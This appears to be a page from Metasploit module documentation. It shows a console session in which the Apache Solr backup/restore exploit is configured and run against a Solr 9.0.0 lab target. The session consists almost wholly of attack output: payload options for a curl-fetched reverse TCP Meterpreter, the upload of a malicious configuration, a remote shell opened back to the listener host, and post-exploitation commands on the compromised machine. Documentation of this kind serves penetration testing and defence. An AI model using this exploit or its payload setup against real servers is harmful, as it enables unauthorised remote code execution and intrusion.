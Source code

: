 ```
   USERNAME   solr             no        Solr username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      dkNrXBirxJx      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp/            yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/apache_solr_backup_restore) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Running check method
[*] Found Apache Solr 9.0.0
[*] OS version is Linux amd64 6.5.0-26-generic
[+] The target appears to be vulnerable. Found Apache Solr version: 9.0.0
[+] Uploaded configuration successfully
[+] Backed up collection successfully
[+] Backed up collection successfully
[+] Uploaded configuration successfully
[*] Sending stage (3045380 bytes) to 172.16.199.132
[*] Meterpreter session 14 opened (172.16.199.1:4444 -> 172.16.199.132:41742) at 2024-04-01 16:25:16 -0700
[*] Cleaning up...

meterpreter > getuid
Server username: solr
meterpreter > sysinfo
Computer     : 172.21.0.3
OS           : Ubuntu 20.04 (Linux 6.5.0-26-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```